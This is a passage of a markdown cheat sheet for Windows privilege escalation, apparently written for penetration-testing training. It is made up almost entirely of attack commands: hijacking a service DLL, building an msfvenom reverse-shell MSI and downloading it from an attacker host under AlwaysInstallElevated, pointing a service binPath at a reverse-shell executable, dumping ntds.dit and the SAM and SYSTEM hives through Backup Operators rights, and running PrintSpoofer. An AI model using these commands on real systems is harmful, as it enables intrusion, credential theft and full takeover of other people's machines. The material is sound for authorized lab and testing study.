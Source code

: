 ```
        break;
    }
    return TRUE;
}

Cross-compile:
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

Replace and restart service:
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
Restart-Service BetaService
```
##### AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.5 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
certutil.exe -urlcache -f http://10.0.2.5:8888/evil.msi evil.msi
sudo rlwrap nc- nlvp 443
evil.msi
```
##### Abusing Server Operators Group
```
Check Writtable Services Under Registry To Current User:

winpeas.exe or accesschk.exe /accepteula -uvwqk  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
```
```
sc qc AppReadiness 
sc.exe config AppReadiness binPath= "C:\users\svc-printer\documents\rev.exe"
sc start AppReadiness
```
![image](https://github.com/user-attachments/assets/b3dee6e9-4c6f-4324-8af8-3d95e0650cec)
![image](https://github.com/user-attachments/assets/e9a421db-8fce-4d1e-8284-59927a883115)
##### Abusing Backup Operators Group
```
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll

Create disk_command.txt:
set context persistent nowriters#
add volume c: alias new1#
create#
expose %new1% z:#

cmd /c diskshadow /s disk_command.txt
Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit .\ntds.dit
reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
```
##### Named Pipes(PrintSpoofer)
```
Requirements: SeImpersonatePrivilege has to be enabled
Download address: wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
kali: iwr -uri http://192.168.45.214/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
victim: .\PrintSpoofer64.exe -i -c powershell.exe(cmd.exe)\

whoami
```
